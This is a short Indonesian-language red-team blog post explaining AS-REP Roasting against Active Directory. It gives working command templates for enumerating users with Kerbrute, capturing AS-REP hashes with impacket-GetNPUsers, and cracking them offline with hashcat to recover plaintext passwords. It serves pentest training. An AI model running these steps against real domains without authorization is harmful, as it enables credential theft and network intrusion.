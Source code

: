 ```yaml
---
title: AS-REP Roasting Attack
author: "novran"
date: 2024-11-22 00:00:00 +0700
categories: [Active Directory Pentest]
tags: [Active Directory Pentest, Red Team]
mermaid: true
image:
  path: /images/2024-11-22-as-rep-roasting-attack-banner.png
  alt: AS-REP Roasting
---
```


AS-REP Roasting adalah teknik serangan yang menargetkan akun-akun di Active Directory yang **sengaja dikonfigurasi untuk tidak menggunakan pre-authentication Kerberos**.

![User does not use pre-authentication](/images/2024-11-22-as-rep-roasting-attack-preauth-disabled.png)

Flow singkatnya, penyerang akan **meminta tiket otentikasi (AS-REP) ke protokol Kerberos (Port 88) di Domain Controller** dan **jika penyerang berhasil mendapatkan hash-nya**, maka ia dapat melakukan **crack secara Offline** untuk mendapatkan _password (plain-text)_ yang digunakan oleh akun tersebut.

> Serangan ini biasanya bisa menjadi **Initial Access**, karena **dapat dieksekusi tanpa kredensial**. Namun, dengan catatan kita bisa PING atau terkoneksi ke Domain Controller-nya.

## Let's Do It

**Enum Valid Users using Kerbrute (Optional)**

Untuk mencari list user yang valid untuk kemudian di-capture hash-nya, bisa menggunakan Tool [Kerbrute](https://github.com/ropnop/kerbrute/releases/latest).

```bash
kerbrute userenum <LIST_USERS_FILE> --domain <DOMAIN> --dc <DC_IP> -o <VALID_USER_OUTPUT>
```

![Kerbrute User Enumeration](/images/2024-11-22-as-rep-roasting-attack-kerbrute.png)

### 1. Capture AS-REP

Untuk melakukan capture hash pengguna domain **yang preauthentication-nya dinonaktifkan**, di sini kita akan menggunakan _script_ `impacket-GetNPUsers`.

```bash
impacket-GetNPUsers <DOMAIN>/ -dc-ip <DC_IP> -usersfile <LIST_USERS_FILE> -format hashcat -outputfile <OUTPUT_HASHES>
```

![impacket-GetNPUsers AS REP Roasting](/images/2024-11-22-as-rep-roasting-attack-impacket.png)

### 2. Crack the AS-REP Hashes

Setelah berhasil memperoleh hash-nya, kita bisa melakukan _cracking hash_ tersebut menggunakan `hashcat`.

```bash
hashcat -m 18200 <OUTPUT_HASHES> <PASSWORDS_WORDLIST>
```

![Hashcat AS-REP Roasting](/images/2024-11-22-as-rep-roasting-attack-hashcat.png)
